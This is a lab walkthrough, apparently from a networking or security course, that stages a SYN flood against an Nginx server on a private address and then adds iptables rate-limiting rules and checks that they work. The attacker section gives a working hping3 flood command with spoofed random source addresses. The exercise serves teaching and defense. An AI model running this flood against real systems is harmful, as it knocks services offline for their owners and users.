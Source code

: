 #### **Server: Setup and Observation**

```bash
# Verify the Nginx web server is running
sudo systemctl status nginx

# Install net-tools to monitor network connections
sudo apt install -y net-tools

# During the attack, run this command to observe the exhausted connection table
sudo netstat -tuna | grep SYN_RECV
```

---

#### **Attacker: Setup and Attack Execution**

```bash
# Install hping3, a packet crafting tool
sudo apt update
sudo apt install -y hping3

# Launch the SYN flood attack against the server's web port (80)
# This sends a high volume of SYN packets from random source IPs
sudo hping3 -S --flood -V --rand-source 192.168.10.12 -p 80

# Press Ctrl+C in this terminal to stop the attack.
```

---

#### **User: Verify Service Unavailability**

```bash
# Install curl to test web connectivity
sudo apt install -y curl

# While the attack is running, attempt to access the web server
# This request should hang and eventually time out
curl http://192.168.10.12
```

---

#### **Defense Methods and Verification**

*After confirming the vulnerability, apply the following firewall rules on the **Server** node. Then, re-launch the attack from the **Attacker** node to verify the defense is effective.*

---

#### **Server: Apply and Verify Defenses**

```bash
# Apply iptables rules to rate-limit new incoming SYN packets
# Rule 1: Allow a burst of 10 new connections, then limit to 5 per minute
sudo iptables -A INPUT -p tcp --syn -m limit --limit 5/m --limit-burst 10 -j ACCEPT

# Rule 2: Drop all other new SYN packets that exceed the limit
sudo iptables -A INPUT -p tcp --syn -j DROP

# After re-launching the attack, view the firewall statistics
# The packet counter for the DROP rule should increase rapidly
sudo iptables -L -v -n
```

---